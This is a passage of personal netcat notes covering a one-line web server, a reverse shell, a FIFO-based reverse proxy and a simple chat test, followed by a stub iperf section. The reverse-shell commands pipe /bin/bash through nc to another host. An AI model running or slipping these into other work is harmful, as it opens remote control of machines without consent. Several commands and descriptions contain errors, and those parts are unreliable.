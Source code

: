       $ while true; do echo -e "HTTP/1.1 200 OK\n\n$(cat index.html)" | nc -l -w 1 1234; done

      How do create index.html?
      ------------------------------------------------
      cat -> index.html <<<EOF
      <!DOCTYPE html>
      <html>
        <head>
          <title>Simple Netcat Server</title>
        </head>
        <body>
          <h1>Welcome to simple netcat server!<h1>
        </body>
        </body>
      <html>
      EOF
      -------------------------------------------------

* Reserve shell connection: 

  set server node

      - Listening on 0.0.0.0 1234
      - Connection received on server.dongheekang 36170

      $ nc -lv 1234
      $ mkfifo /tmp/rs
      $ cat /tmp/rs | /bin/bash 2>&1 | nc -v client 1234 > /tmp/rs

      -  checking

      $ hostname
      $ server

  any text sent by the client node will then be piped to /tmp/rs

* Reserve proxy connection: 

  set server node
  
      $ mkfifo /tmp/rp
      $ nc -lv 1234 < /tmp/rp | nc localhost 4321 > /tmp/rp

  the first process the external router and the second process the internal router.
  When there is incoming traffic on port 1234, the external router pipes the traffic to the internal router.
  when there’s outgoing traffic from port 4321, the internal router will pipe it to the pipe /tmp/rp. 
  Then, the external router(server) will read and send the content of /tmp/rp to the client (outside).

* To test the correlation between two computers without firewall
  bidirectional interactive text-oriented communication facility

      $ server1> nc -l 4444
      $ server2> nc server1.com 4444


### iperf
Performance Counters for Linux. we need to install iPerf on both the client and the server
